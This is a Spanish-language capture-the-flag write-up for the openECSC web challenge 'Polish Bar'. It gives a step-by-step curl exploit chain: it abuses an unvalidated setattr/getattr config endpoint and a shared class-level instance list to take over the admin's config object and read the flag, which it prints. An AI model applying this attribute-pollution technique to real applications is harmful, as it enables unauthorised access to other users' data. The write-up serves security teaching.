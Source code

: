 # Polish Bar Challenge

**Categoría:** Web  
**Dificultad:** Media   

## Descripción

Una aplicación web que simula un bar polaco donde los usuarios pueden gestionar sus bebidas preferidas y su estante de alcohol. La aplicación usa FastAPI con autenticación basada en sesiones y un sistema de configuración personalizado.

## Análisis Inicial

Al acceder a la aplicación, encontramos:
- Un sistema de registro en `/register`
- Una página de perfil en `/profile` que muestra las preferencias del usuario
- Tres endpoints principales:
  - `/config` - Actualiza propiedades de configuración
  - `/beverage` - Agrega bebidas al estante
  - `/empty` - Vacía el estante de alcohol

La estructura de la aplicación revela:
```
app.py          # Aplicación FastAPI
config.py       # Clases de configuración
templates/      # Plantillas HTML
```

## Descubrimiento de la Vulnerabilidad

Examinando el HTML de la página de perfil, encontramos una vulnerabilidad crítica en el formulario de actualización de bebidas:

```html
<form action="/config" method="post">
    <input type="hidden" name="config" value="preferred_beverage">
    <input type="text" name="value" placeholder="e.g., Żubrówka, Vodka, Mead...">
    <button type="submit">Update Beverage</button>
</form>
```

El campo `config` está oculto pero es **completamente modificable** mediante las DevTools del navegador o interceptando la petición. Esto nos permite manipular CUALQUIER propiedad de configuración, no solo `preferred_beverage`.

### Analizando el Backend

Revisando `app.py`, descubrimos la inicialización de la sesión del admin:

```python
def admin_session_setup():
    session_id = str(uuid.uuid4())
    sessions[session_id] = {
        'username': 'admin',
        'password': str(os.urandom(10).hex()),
        'config': BeverageConfig(os.getenv('FLAG', 'openECSC{TEST_FLAG}'))
    }
```

El `preferred_beverage` del admin está configurado con la FLAG

En `config.py`, el flujo de código crítico es:

```python
class PreferenceConfig(AlcoholShelf):
    _all_instances = []  # VARIABLE DE CLASE - compartida entre TODAS las instancias!
    
    def __init__(self, preferred_beverage: str):
        super().__init__()
        self.preferred_beverage = preferred_beverage
        self.alcohol_shelf = AlcoholShelf()
        BeverageConfig._all_instances.append(self)  # ¡El Admin es el primero!

class BeverageConfig(PreferenceConfig):
    def get_property(self, val):
        try:
            if hasattr(self.alcohol_shelf, val):
                return getattr(self.alcohol_shelf, val)
            return getattr(self, val)  # ¡Puede acceder a CUALQUIER atributo!
        except:
            return
    
    def update_property(self, key: str, val: str):
        attr = self.get_property(val)  # Obtiene el valor de 'val'
        if attr:
            setattr(self, key, attr)   # Asigna ese valor a 'key'
            return
        return { 'error': 'property doesn\'t exist!' }
```

**La cadena de vulnerabilidades:**
1. `update_property()` no valida qué propiedades pueden ser modificadas
2. `get_property()` puede acceder a atributos de clase como `_all_instances`
3. `_all_instances` contiene TODAS las configuraciones de usuarios, incluyendo la del admin (primer elemento)
4. La configuración del admin tiene `preferred_beverage = FLAG`

## Explotación

### Paso 1: Registrar un Usuario Normal

```bash
curl -X POST http://localhost/register \
  -d "username=hacker&password=test123" \
  -c cookies.txt
```

O mediante la interfaz web en `http://localhost/register`.

### Paso 2: Agregar `_all_instances` al Shelf

Necesitamos hacer que `_all_instances` sea accesible vía `get_property()`. Podemos hacer esto agregándolo como string al estante de alcohol:

```bash
curl -X POST http://localhost/beverage \
  -d "beverage=_all_instances" \
  -b cookies.txt
```

Ahora `alcohol_shelf` contiene el string `"_all_instances"`, lo que lo hace accesible mediante las verificaciones de `hasattr()`.

### Paso 3: Reemplazar `alcohol_shelf` con `_all_instances`

Usamos la vulnerabilidad para setear nuestro `alcohol_shelf` a la lista global `_all_instances`:

```bash
curl -X POST http://localhost/config \
  -d "config=alcohol_shelf&value=_all_instances" \
  -b cookies.txt
```

```python
# En update_property():
attr = self.get_property("_all_instances")  # Retorna la lista de TODAS las configs
setattr(self, "alcohol_shelf", attr)        # Nuestro shelf ahora es [admin, user1, user2, ...]
```

### Paso 4: Ejecutar `empty_alcohol_shelf()`

Llamamos al endpoint `/empty` para ejecutar la lógica de vaciado del estante:

```bash
curl -X POST http://localhost/empty -b cookies.txt
```

```python
def empty_alcohol_shelf(self):
    if hasattr(self.alcohol_shelf, "_alcohol_shelf"):
        self.alcohol_shelf._alcohol_shelf = [self.alcohol_shelf._alcohol_shelf[0]]
    else:
        self.alcohol_shelf = self.alcohol_shelf[0]  # ¡Toma el primer elemento!
```

Como nuestro `alcohol_shelf` ahora es la lista `_all_instances` (no un objeto `AlcoholShelf`), toma la rama **else** y asigna `self.alcohol_shelf = _all_instances[0]`, que es el **objeto BeverageConfig del admin**

### Paso 5: Ver el Perfil

Accedemos a `/profile` y la flag se muestra:

```bash
curl http://localhost/profile -b cookies.txt
```

La página muestra:
```html
<div class="preferred-beverage">
    openECSC{TEST_FLAG}
</div>
```

## Flag

```
openECSC{gggrrrrrrr_ppyytthhonnn_ace6020c2f56}
```
